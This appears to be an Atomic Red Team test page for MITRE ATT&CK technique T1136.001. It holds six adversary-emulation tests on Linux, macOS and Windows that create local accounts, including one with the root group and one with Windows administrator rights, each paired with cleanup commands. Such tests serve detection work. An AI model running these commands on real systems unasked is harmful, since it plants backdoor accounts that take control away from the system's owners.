 # T1136.001 - Local Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/001)
<blockquote>Adversaries may create a local account to maintain access to victim systems. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service. With a sufficient level of access, the <code>net user /add</code> command can be used to create a local account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)

- [Atomic Test #6 - Create a new Windows admin user](#atomic-test-6---create-a-new-windows-admin-user)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -M -N -r -s /bin/bash -c evil_account #{username}
```

#### Cleanup Commands:
```bash
userdel #{username}
```





<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/zsh
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```

#### Cleanup Commands:
```bash
dscl . -delete /Users/#{username}
```





<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt. Upon execution, "The command completed successfully." will be displayed. To verify the
new account, run "net user" in powershell or CMD and observe that there is a new user named "T1136.001_CMD"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.001|
| password | Password of the user to create | String | T1136.001!|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user /add "#{username}" "#{password}"
```

#### Cleanup Commands:
```cmd
net user /del "#{username}" >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell. Upon execution, details about the new account will be displayed in the powershell session. To verify the
new account, run "net user" in powershell or CMD and observe that there is a new user named "T1136.001_PowerShell"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.001_PowerShell|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "#{username}" -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "#{username}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -g 0 -M -d /root -s /bin/bash #{username}
if [ $(cat /etc/os-release | grep -i 'Name="ubuntu"') ]; then echo "#{username}:#{password}" | sudo chpasswd; else echo "#{password}" | passwd --stdin #{username}; fi;
```

#### Cleanup Commands:
```bash
userdel #{username}
```





<br/>
<br/>

## Atomic Test #6 - Create a new Windows admin user
Creates a new admin user in a command prompt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.001_Admin|
| password | Password of the user to create | String | T1136_pass|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user /add "#{username}" "#{password}"
net localgroup administrators "#{username}" /add
```

#### Cleanup Commands:
```cmd
net user /del "#{username}" >nul 2>&1
```





<br/>
